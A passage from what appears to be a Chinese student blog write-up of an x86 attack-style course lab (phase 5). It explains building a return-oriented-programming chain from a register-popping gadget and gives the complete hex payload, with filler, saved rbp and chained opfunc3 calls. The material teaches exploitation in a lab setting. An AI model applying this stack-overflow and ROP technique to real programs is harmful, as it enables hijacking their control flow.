opfunc3(str+9, '6' , '7' , '8' , '9' );
opfunc1(str+13, '\0' );						/* 最终的 payload 偷了个懒，没有加 \0，因为之后的空数据正好为 0x00 */
    ↓
puts(str);
```

至于如何调用函数和传递参数，我们使用收集到的 gadget：

```asm
0x400923: 	pop r8			# pop 的作用是：弹出栈顶的值，将这个值存入寄存器
			pop rcx
			pop rdx
			pop rsi
			pop rdi
			ret				# 注意 ret 的实质是 pop rip
```

现在的问题是，我们应该如何具体实施 ROP 攻击？现在假设我的 payload 已经完成了填充数据，还原 rbp 的工作，接下来我们需要利用 gadget 修改寄存器状态了，我们的返回地址先覆盖为：

```asm
# After RBP of last stack frame #
23 09 40 00 00 00 00 00         # pop regs && ret #
```

此时我们位于 0x400923 处的 gadget 起到了作用，它依次弹栈并更新四个入口参数以及 `rip` 的值。那么这些值从哪里来？我们直接在 `23 09 40 00 00 00 00 00` 之后依次给出寄存器值即可（这里需要考虑栈帧结构，为什么紧接着的几个值能够对应 `pop` 操作）：

```asm title="First 'node' of ROP chain"
# payload = nonsense_data + rbp + ROP chain #
# nonsense_data + rbp 省略了，直接从 ROP chain 开始 #

# 最开始 rsp 指向下面一行的 payload 起始点 #
23 09 40 00 00 00 00 00         # pop regs && ret   #
31 00 00 00 00 00 00 00         # r8 = '1'          ## pop r8 时，rsp 指向这里，然后取出这个值存入 r8    #
20 00 00 00 00 00 00 00         # rcx = ' '         ## pop rcx 时，rsp 指向这里，然后取出这个值存入 rcx  #
2C 00 00 00 00 00 00 00         # rdx = ','         ## pop rdx 时，rsp 指向这里，然后取出这个值存入 rdx  #
69 00 00 00 00 00 00 00         # rsi = 'i'         ## pop rsi 时，rsp 指向这里，然后取出这个值存入 rsi  #
A9 20 60 00 00 00 00 00         # rdi = str+1       ## pop rdi 时，rsp 指向这里，然后取出这个值存入 rdi  #
A0 08 40 00 00 00 00 00         # opfunc3_address   ## ret 时，rsp 指向这里，然后取出这个值存入 rip      #

# opfunc3 通过 ret 返回时，我们继续覆盖返回地址，构造 ROP Chain #
23 09 40 00 00 00 00 00         # pop regs && ret   #

# 后面的你都会了，记得最后一次调用 opfunc 后，返回地址设置为 phase 函数调用 do_phase 函数的下一步地址 #
```

最终给出完整的 payload

```asm title="Payload for Phase 5"
# payload = nonsense_data + rbp + ROP chain #

# nonsense_data #
01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16

# RBP of last stack frame #
76 09 40 00 00 00 00 00

# ROP chain #
23 09 40 00 00 00 00 00 # pop regs && ret   #
31 00 00 00 00 00 00 00 # r8 = '1'          #
20 00 00 00 00 00 00 00 # rcx = ' '         #
2C 00 00 00 00 00 00 00 # rdx = ','         #
69 00 00 00 00 00 00 00 # rsi = 'i'         #
A9 20 60 00 00 00 00 00 # rdi = str+1       #
A0 08 40 00 00 00 00 00 # opfunc3           #

23 09 40 00 00 00 00 00 # pop regs && ret   #
35 00 00 00 00 00 00 00 # r8 = '5'          #
34 00 00 00 00 00 00 00 # rcx = '4'         #
33 00 00 00 00 00 00 00 # rdx = '3'         #
32 00 00 00 00 00 00 00 # rsi = '2'         #
AD 20 60 00 00 00 00 00 # rdi = str+5       #
A0 08 40 00 00 00 00 00 # opfunc3           #

23 09 40 00 00 00 00 00 # pop regs && ret   #
39 00 00 00 00 00 00 00 # r8 = '9'          #
38 00 00 00 00 00 00 00 # rcx = '8'         #
37 00 00 00 00 00 00 00 # rdx = '7'         #
36 00 00 00 00 00 00 00 # rsi = '6'         #
B1 20 60 00 00 00 00 00 # rdi = str+9       #
A0 08 40 00 00 00 00 00 # opfunc3           #

76 09 40 00 00 00 00 00 # puts #
```

---

至此，ICS-x86 版本的现有的三个 lab 全部完成

晚上写 Lab 太有生活了，写完整理更新 Blog 然后睡觉


